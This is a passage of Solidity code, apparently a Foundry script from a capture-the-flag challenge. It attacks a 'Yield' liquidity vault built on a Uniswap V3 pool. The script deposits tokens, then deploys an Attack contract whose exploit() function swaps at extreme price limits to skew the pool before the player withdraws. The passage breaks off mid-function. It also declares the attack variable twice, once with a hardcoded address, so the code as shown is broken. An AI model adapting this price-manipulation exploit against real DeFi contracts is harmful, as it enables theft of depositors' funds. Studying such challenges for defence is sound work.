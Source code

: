 ```solidity
        console.log("Yield accruedProtocolFees0() : ", yield.accruedProtocolFees0());
        console.log("Yield accruedProtocolFees1() : ", yield.accruedProtocolFees1());


        console.log("Player balance of token0 : ", token0.balanceOf(address(player)));
        console.log("Player balance of token1 : ", token1.balanceOf(address(player)));
        console.log("Player balance of LP tokens : ", yield.balanceOf(address(player)));

        token0.approve(address(yield),  14 ether);
        token1.approve(address(yield), 15 ether);
        yield.deposit( 14 ether, 15 ether, 1, 1, player);
        // Repeat the following process until we got more LP tokens
        Attack attack = new Attack(address(yield), player);
        Attack attack = Attack(0xf5420a93FCa0E520E319Dc3f05625c79613be6b0);
        token0.transfer(address(attack), 2 ether);
        token1.transfer(address(attack), 2 ether);
        attack.exploit(true); 
        yield.withdraw(yield.balanceOf(player), 0, 0, player);

        
        (sqrtPriceX96,tick,,,,,) = pool.slot0();
        console.log("Pool tick : ", tick);
        console.log("Pool sqrtPriceX96 : ", uint256(sqrtPriceX96));
        (total0, total1) = yield.getTotalAmounts();
        console.log("total0: ", total0);
        console.log("total1: ", total1);
        console.log("Yield getBalance0() : ", yield.getBalance0());
        console.log("Yield getBalance1() : ", yield.getBalance1());
        console.log("Initial LP tokens : ", yield.totalSupply());

        console.log("Player balance of token0 : ", token0.balanceOf(address(player)));
        console.log("Player balance of token1 : ", token1.balanceOf(address(player)));
        console.log("Player balance of LP tokens : ", yield.balanceOf(address(player)));

        // console.log("isSolved() : ", yield.isSolved());
        vm.stopBroadcast();
    }
}

contract Attack {
    Yield public yield;
    IUniswapV3Pool public pool;
    IERC20 public token0;
    IERC20 public token1;
    address public player;
    uint160 internal constant MIN_SQRT_RATIO = 4295128739;
    uint160 internal constant MAX_SQRT_RATIO = 1461446703485210103287273052203988822378723970342;

    constructor(address _yeild, address _player){
        yield = Yield(_yeild);
        pool = yield.pool();
        token0 = IERC20(pool.token0());
        token1 = IERC20(pool.token1());
        player = _player;
    }
    function exploit(bool zeroForOne) public {
        (uint160 sqrtPriceX96,,,,,,) = pool.slot0();
        if (zeroForOne){
            uint256 token0bal =  token0.balanceOf(address(this));
            token0.approve(address(pool), token0bal);
            pool.swap(player, true, int256(token0bal), MIN_SQRT_RATIO+1, "");
        }
        else {
```